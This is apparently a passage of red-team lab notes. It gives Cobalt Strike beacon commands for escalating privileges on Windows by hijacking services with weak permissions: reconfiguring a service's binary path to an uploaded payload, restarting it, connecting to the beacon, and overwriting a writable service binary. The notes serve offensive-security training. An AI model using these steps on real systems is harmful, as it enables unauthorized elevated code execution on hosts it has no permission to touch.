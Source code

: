 1. Validate that the current path is `"C:\Program Files\Vulnerable Services\Service 2.exe"`:
```
beacon> run sc qc VulnService2
```
2. Upload a service binary payload and reconfigure the binary path on the vulnerable service:
```
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe

beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
```
3. Validate that the path has been updated:
```
beacon> run sc qc VulnService2
```
4. Restart the service:
```
beacon> run sc stop VulnService2
beacon> run sc start VulnService2

beacon> connect localhost 4444
```
5. Restore the previous binary path:
```
beacon> run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"
```


## Weak Service Binary Permissions

---

1. Verify that the binary is modifiable:
```
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl
```
2. Download the binary:
```
beacon> download Service 3.exe
```
3. Make a copy of the payload and rename it to the original service binary name:
``` powershell
copy "tcp-local_x64.svc.exe" "Service 3.exe"
```
4. Attempt to upload:
```
beacon> upload C:\Payloads\Service 3.exe
```

Troubleshoot:
```
beacon> upload C:\Payloads\Service 3.exe
[-] could not upload file: 32 - ERROR_SHARING_VIOLATION
```
